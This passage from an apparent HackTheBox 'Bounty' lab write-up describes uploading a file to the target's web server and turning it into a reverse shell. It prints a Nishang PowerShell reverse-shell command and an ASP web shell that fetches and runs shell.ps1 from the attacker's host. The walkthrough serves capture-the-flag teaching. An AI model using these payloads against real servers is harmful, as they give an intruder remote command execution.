 Now we try to upload it to the server, the validation is to popup the number 3 when accessing it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:55:27.png)

That's it, we got it working

Now we need to get a reverse shell on it

For that we will use the Nishang reverse shell

![](/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:57:28.png)

We add the command (in the end of the file) to open it in memory and give us the reverse shell

```ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.18 -Port 4444
```

`https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`

```aspx
<% Set rs = CreateObject("WScript.Shell") Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18/shell.ps1')") o = cmd.StdOut.Readall() Response.write(o) %>
```
